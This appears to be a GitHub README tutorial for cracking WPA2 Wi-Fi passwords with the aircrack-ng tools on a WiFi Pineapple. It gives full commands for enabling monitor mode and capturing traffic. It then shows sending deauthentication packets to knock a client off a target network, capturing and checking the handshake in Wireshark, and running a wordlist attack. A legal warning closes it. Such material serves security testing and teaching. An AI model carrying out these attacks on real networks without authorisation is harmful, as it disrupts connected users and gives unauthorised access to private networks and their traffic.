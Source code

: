 # Crack_WPA2-WiFi_Pineapple_CLI
Cracking WPA2 using Aircrack-ng through WiFi Pineapple MKVII CLI

### Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- WiFi Pineapple MKVII (or any other WiFi Adapter. TIP:Whenever you’re choosing an external Wi-Fi adapter, make sure that it supports both 2.4Ghz and 5Ghz band.

My setup
![Setup](Images/Setup.jpg)

### Terminal-1
  1. Detect your wireless network interface
     Run:
<pre lang="markdown">iwconfig</pre>
![Setup](Images/iwconfig.png)

  2. If interface not in monitor mode Run:
<pre lang="markdown">airmon-ng start &lt;interface&gt;</pre>
![Setup](Images/start_Interface.png)

  3. Capture traffic
<pre lang="markdown">airodump-ng &lt;interface&gt</pre>
![Setup](Images/airodump.png)


  4. To set WiFi Pineapple at 5GHz Run:     
<pre lang="markdown">airmon-ng &lt;interface&gt channel 48;</pre>
![Setup](Images/enable_5g.png)


  5. Capture traffic 5GHz band
     <pre lang="markdown">airodump-ng &lt;interface&gt --channel 48</pre>

### Terminal-2

  6. select target and focus on one AP on channel:
<pre lang="markdown">airodump-ng -c &lt;channel&gt; -w &lt;filename&gt; -d &lt;AP_BSSID&gt; &lt;interface&gt;</pre>

### Example:

<pre lang="markdown">airodump-ng -c2 -w capture_wpa2 -d 00:11:22:33:44:55 wlan3mon</pre>

### Explanation:
- **`-c 2`** → Specifies the Wi-Fi channel (replace with your target AP’s channel).
- **`-w capture_wpa2`** → Defines the output filename (`capture_wpa2.cap`).
- **`-d 00:11:22:33:44:55`** → Filters by target AP’s BSSID.
- **`wlan3mon`** → Your network interface in monitor mode.

Once executed, the `.cap` file will be created, which can be used for further analysis.

  ![Setup](Images/airodump_target.png)

### Terminal-3
  7. Send deauthentication packets to the target
     
<pre lang="markdown">aireplay-ng --deauth 0 -a &lt;BSSID/AP's MAC&gt; -c &lt;Target/Station MAC&gt; &lt;interface&gt;</pre>

  ![Setup](Images/deauth.png)

  As the packets are sent frames on the target increase until it get's disconnected
  ![Setup](Images/deauth_attack_in_progress.png)


  8. Capture handshake : it will be shown in the monitor if captured ! at Terminal-2.
  ![Setup](Images/captured_files.png)

  9. Now you got the handshake(terminal-2)
  10. Stop the process at terminal-2:
      >ctrl+c

### 🔍 Checking WPA2 Handshake in Wireshark
Once the handshake is captured, follow these steps to verify it:

#### Open the Captured File
Run the following command to open the `.cap` file in Wireshark:

```bash
wireshark capture_wpa2-01.cap
```

#### Apply a Filter
In Wireshark’s **filter bar**, enter the following filter and press **Enter**:

```plaintext
eapol
```

This filters out only **EAPOL (Extensible Authentication Protocol over LAN) packets**.

#### Verify the 4-Way Handshake
Look for **four EAPOL messages** exchanged between the client (station) and the AP (router):

- **Message 1** → Sent by AP to the client.
- **Message 2** → Client replies.
- **Message 3** → AP sends another message.
- **Message 4** → Final response from the client.

#### Confirm Success

- ✅ If **all 4 messages** are captured, you've successfully grabbed the handshake! 🎉
- ❌ If you see only **2 or 3 messages**, the handshake is incomplete, and you may need to retry.

![Setup](Images/wireshark.png)

### 🔓 Cracking the WPA2 Handshake
Once you have successfully captured the WPA2 handshake, you can attempt to crack the password using `aircrack-ng`.

#### Run the Following Command
Use a wordlist to attempt the password crack:

```bash
aircrack-ng -w [wordlist.txt] -b [BSSID] capture_wpa2-01.cap
```

- `-w [wordlist.txt]`: Path to your dictionary file (e.g., `rockyou.txt`).
- `-b [BSSID]`: The target network’s MAC address.
- `capture_wpa2-01.cap`: The file containing the captured handshake.
![Setup](Images/aircrack_com.png)



#### Wait for the Results
If the password is in the wordlist, `aircrack-ng` will reveal it. If not, you may need a more extensive wordlist or other cracking techniques.

![Setup](Images/aircrack.png)

## ⚠ Legal Warning
This script should **only** be used on networks you own or have **explicit permission** to test. Unauthorized use is a violation of **cybercrime laws**.

---



